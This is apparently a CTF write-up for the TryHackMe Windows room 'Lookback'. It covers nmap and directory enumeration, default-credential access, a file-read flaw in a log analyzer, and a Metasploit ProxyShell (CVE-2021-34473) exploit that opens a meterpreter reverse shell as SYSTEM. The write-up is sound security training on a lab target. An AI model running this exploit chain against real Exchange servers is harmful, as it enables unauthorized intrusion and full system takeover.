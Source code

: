 ```yaml
---
title: "Lookback"
date: 2025-02-27
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Lookback
categories: [TryHackMe, Easy]
tags: [windows, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Lookback</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>You’ve been asked to run a vulnerability test on a production environment.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Windows</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/lookback">https://tryhackme.com/room/lookback</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Lookback.

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.242.206
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-27 15:43 EDT
Nmap scan report for 10.10.242.206
Host is up (0.041s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 130.50 seconds

```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 80,443,3389 10.10.242.206
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-27 15:46 EDT
Nmap scan report for 10.10.242.206
Host is up (0.039s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title.
|_http-server-header: Microsoft-IIS/10.0
443/tcp  open  ssl/https
| ssl-cert: Subject: commonName=WIN-12OUO7A66M7
| Subject Alternative Name: DNS:WIN-12OUO7A66M7, DNS:WIN-12OUO7A66M7.thm.local
| Not valid before: 2023-01-25T21:34:02
|_Not valid after:  2028-01-25T21:34:02
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM
|   NetBIOS_Domain_Name: THM
|   NetBIOS_Computer_Name: WIN-12OUO7A66M7
|   DNS_Domain_Name: thm.local
|   DNS_Computer_Name: WIN-12OUO7A66M7.thm.local
|   DNS_Tree_Name: thm.local
|   Product_Version: 10.0.17763
|_  System_Time: 2025-03-15T19:46:27+00:00
| ssl-cert: Subject: commonName=WIN-12OUO7A66M7.thm.local
| Not valid before: 2025-03-14T19:36:49
|_Not valid after:  2025-09-13T19:36:49
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -17s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.87 seconds
```
From here I proceeded the analysis port by port.

## Port 80 & 443 Analysis

I began by accessing the webserver via port 80, but didn't get any further, so I started a `feroxbuster` directory enumeration:
```bash
$ feroxbuster -u http://10.10.242.206 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
                                                                                                                                                                                                                                             
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 邏                 ver: 2.11.0
───────────────────────────┬──────────────────────
   Target Url            │ http://10.10.242.206
   Threads               │ 50
   Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
   Status Codes          │ All Status Codes!
   Timeout (secs)        │ 7
 說  User-Agent            │ feroxbuster/2.11.0
   Config File           │ /etc/feroxbuster/ferox-config.toml
   Extract Links         │ true
   HTTP methods          │ [GET]
   Recursion Depth       │ 4
───────────────────────────┴──────────────────────
   Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        0l        0w        0c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET       29l       92w     1233c http://10.10.242.206/test
302      GET        3l        8w      209c http://10.10.242.206/ecp => https://10.10.242.206/owa/auth/logon.aspx?url=https%3a%2f%2f10.10.242.206%2fecp&reason=0
```

When I accessed the webserver using HTTPS, I was redirected to an Exchange server login page. However, without any credentials or email addresses to proceed, I moved on for the time being.

### Directory /test Analysis

The `/test` directory prompted for HTTP basic authentication. I tried some default username-password combinations manually and was successful. After logging in, the website displayed a log analyzer and the first flag. 

![Log Analyzer](/assets/img/tryhackme/Lookup/thm_lookup_1.jpg)

It seemed to load a specified log file, so I successfully tried accessing the Windows default file `win.ini`:

![Win ini](/assets/img/tryhackme/Lookup/thm_lookup_1.jpg)

From there, I was able to read files on the desktop of the user `dev`. I retrieved the next flag and an interesting note, where one sentence caught my attention:

![Note](/assets/img/tryhackme/Lookup/thm_lookup_1.jpg)

```text
Install the Security Update for MS Exchange [TO BE DONE]
```

## Shell as SYSTEM

Because of this to-do item, which likely hadn't been completed yet, I enumerated the Microsoft Exchange server version. While analyzing the source code, the path of the favicon caught my attention:
```html
<link rel="shortcut icon" href="/owa/auth/15.2.858/themes/resources/favicon.ico" type="image/x-icon">
```

The version number of the Exchange server was `15.2.858`. I researched the version number and found this <a href="https://www.rapid7.com/db/modules/exploit/windows/http/exchange_proxyshell_rce/">Rapid7 post</a> about the ProxyShell vulnerability. Since this post referenced Metasploit, I launched it on my machine, searched for the vulnerability, and loaded the module:
```bash
msf6 > search proxyshell
                                                                                                                                                                                                                                
Matching Modules                                                                                                                                                                                                                
================                                                                                                                                                                                                                

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/windows/http/exchange_proxyshell_rce  2021-04-06       excellent  Yes    Microsoft Exchange ProxyShell RCE
   1    \_ target: Windows Powershell               .                .          .      .
   2    \_ target: Windows Dropper                  .                .          .      .
   3    \_ target: Windows Command                  .                .          .      .
msf6 > use exploit/windows/http/exchange_proxyshell_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
```

After setting all required options, I executed the exploit and successfully received the System flag:
```bash
msf6 exploit(windows/http/exchange_proxyshell_rce) >
msf6 exploit(windows/http/exchange_proxyshell_rce) > set RHOSTS 10.10.242.206
RHOSTS => 10.10.242.206
msf6 exploit(windows/http/exchange_proxyshell_rce) > set SRVHOST tun0
SRVHOST => [attackerip]
msf6 exploit(windows/http/exchange_proxyshell_rce) > set LHOST tun0
LHOST => [attackerip]
msf6 exploit(windows/http/exchange_proxyshell_rce) > set EMAIL dev-infrastracture-team@thm.local
EMAIL => dev-infrastracture-team@thm.local
msf6 exploit(windows/http/exchange_proxyshell_rce) > exploit

[*] Started reverse TCP handler on [attackerip]:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Attempt to exploit for CVE-2021-34473
[*] Retrieving backend FQDN over RPC request
[*] Internal server name: win-12ouo7a66m7.thm.local
[*] Assigning the 'Mailbox Import Export' role via dev-infrastracture-team@thm.local
[+] Successfully assigned the 'Mailbox Import Export' role
[+] Proceeding with SID: S-1-5-21-2402911436-1669601961-3356949615-1144 (dev-infrastracture-team@thm.local)
[*] Saving a draft email with subject 'WwEOWRXSr2K' containing the attachment with the embedded webshell
[*] Writing to: C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\YxuvU2L0goq2.aspx
[*] Waiting for the export request to complete...
[+] The mailbox export request has completed
[*] Triggering the payload
[*] Sending stage (201798 bytes) to 10.10.242.206
[+] Deleted C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\YxuvU2L0goq2.aspx
[*] Meterpreter session 1 opened ([attackerip]:4444 -> 10.10.242.206:9563) at 2025-03-15 16:13:39 -0400
[*] Removing the mailbox export request
[*] Removing the draft email

meterpreter > cd C:\Users\Administrator\Documents
meterpreter > ls
  Listing: C:\Users\Administrator\Documents
  =========================================

  Mode              Size  Type  Last modified              Name
  ----              ----  ----  -------------              ----
  100666/rw-rw-rw-  2232  fil   2023-01-26 16:16:32 -0500  Default.rdp
  040777/rwxrwxrwx  0     dir   2023-01-25 23:15:09 -0500  My Music
  040777/rwxrwxrwx  0     dir   2023-01-25 23:15:09 -0500  My Pictures
  040777/rwxrwxrwx  0     dir   2023-01-25 23:15:09 -0500  My Videos
  100666/rw-rw-rw-  402   fil   2023-01-25 23:15:14 -0500  desktop.ini
  100666/rw-rw-rw-  35    fil   2023-02-12 14:57:18 -0500  flag.txt

meterpreter > cat flag.txt
  THM{L[removed]d}

meterpreter > shell
  [...]
  c:\users\administrator\documents> whoami
  whoami
  nt authority\system
```

solved! :)